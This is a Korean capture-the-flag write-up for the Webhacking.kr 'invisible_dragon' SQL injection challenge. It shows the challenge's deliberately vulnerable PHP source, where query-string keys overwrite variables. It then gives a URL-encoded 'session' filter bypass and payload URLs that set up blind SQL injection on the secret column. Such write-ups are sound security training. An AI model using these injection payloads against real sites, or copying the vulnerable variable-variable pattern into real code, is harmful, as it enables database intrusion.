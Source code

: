```yaml
---
title: ["[Webhacking.kr] invisible_dragon (sqli - 300)"]
date: 2024-12-14 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```


```php
<?php
include "./config.php";

if (preg_match('/session/isUD', $_SERVER['QUERY_STRING'])) {
    exit('not allowed');
}

//parse_str($_SERVER['QUERY_STRING']);
parse_str($_SERVER['QUERY_STRING'], $arr);
foreach ($arr as $key => $value) {
    $$key = $value;
}

$db = dbconnect();
if (isset($column) && isset($keyword)) {
    if (isset($ie) && !empty($ie)) {
        if (in_array($ie, ['utf8', 'ucs2', 'utf16'])) {
            $_SESSION['format'] = "convert(%s using $ie)";
        } else {
            $_SESSION['format'] = 'convert(%s using latin1)';
        }
    }
    $format = isset($_SESSION['format']) ? $_SESSION['format'] : 'convert(%s using latin1)';
    if (
        preg_match('/^convert\(/', $format) &&
        preg_match('/\)$/', $format)
    ) {
        $column = sprintf($format, $column);
        $column = preg_replace('/[^\w\s(),]/', '', $column);
        if (strlen($column) > 24) {
            exit("no hack!");
        }

        $keyword = addslashes($keyword);
        $query = "select * from prob_invisible_dragon where $column='$keyword'";
        echo "<hr>query : <strong>{$query}</strong><hr><br>";
        $result = @mysqli_fetch_array(mysqli_query($db, $query));
        if ($result) {
            echo "<h2>Search {$result[0]}!</h2>";
        }
    }
}

if (isset($secret)) {
    $query = "select secret from prob_invisible_dragon";
    $result = @mysqli_fetch_array(mysqli_query($db, $query));
    if ($result['secret'] === $secret) {
        echo "<h2>Yes, that is the FLAG what you want ;)</h2>";
    }
}

highlight_file(__FILE__);
?>
```

* URL의 쿼리 스트링에 `session`이라는 문자열이 포함되어 있으면 실행을 중단
  * `i` flag : 대소문자를 구분하지 않고 매칭
  * `s` flag : 개행문자를 포함하여 매칭
  * `U` flag : ungreedy 혹은 lazy 매칭으로 변경
  * `D` flag : `$`문자가 문자열의 절대적인 끝만을 매칭
* URL 쿼리 스트링을 파싱하여 `arr` 배열로 변환
* `column`과 `keyword` 파라미터가 설정되었는지 확인
* `ie` 파라미터가 존재하고 비어있지 않으면, 문자셋 변환 포맷을 설정함. `utf8`, `ucs2`, `utf16`만 허용되며, `ie` 파라미터가 없거나 그 외의 값인 경우우는 `latin1`을 사용
* `format`이 `convert(`로 시작하고 `)`로 끝나는지 확인
* `column`값을 지정된 `format`으로 포맷팅
* 알파벳, 숫자, 언더스코어, 공백, 괄호, 콤마를 제외한 모든 문자를 제거
* `column`의 길이가 24자를 초과하면 실행을 중단
* `keyword`에 특수문자가 있다면 이스케이프 처리하고, SQL 쿼리를 구성


```
http://webhacking.kr:10016?column=username&keyword=admin&ie=utf8
```  
예컨대 다음과 같은 URL로 요청을 했다고 가정하면, 아래와 같은 SQL 쿼리가 생성된다.  
```sql
select * from prob_invisible_dragon where convert(username using utf8)='admin'
```  

코드에서 `parse_str` 함수가 취약한 방식으로 사용되고 있다.  
Variable variables를 사용해 쿼리스트링의 키를 변수 이름으로 직접 사용하기 때문에 어떤 변수든 덮어쓸 수 있다.

`$_SESSION['format']` 변수를 직접 조작해서 써보자.  
정규표현식으로 `session` 문자열을 검사하지만, URL 인코딩으로 간단히 우회가 가능하다.  

문제는 `column`의 길이 제한이다.  
MYSQL에서 `CONVERT()` 함수는  
* CONVERT(expr USING transcoding_name)
* CONVERT(expr, type)
두 가지 방식으로 사용된다.  

아무리 짧게 사용을 해도 `convert({PAYLOAD},char)` 이렇게 구성되므로, 페이로드에 최대 10자리여야 한다.  

먼저 간단히 `'1'='1'`로 테스트를 해보자.  
```
?_SE%53SION[format]=convert(%s,char)&column=1&keyword=1
```

이렇게 파라미터를 주면, SQL 쿼리는 아래와 같이 구성된다.  

```sql
select * from prob_invisible_dragon where convert(1,char)='1'
```

`1`이라는 결과가 나왔다.  

즉, 데이터베이스에는 `secret` 컬럼 하나 뿐이고, 첫번째 값이 `1`이라는 뜻이다.  


```
?_SE%53SION[format]=convert(%s,char(1))&column=secret&keyword=F
```
이런 형태로 Blind SQLi를 하면 될 것 같다.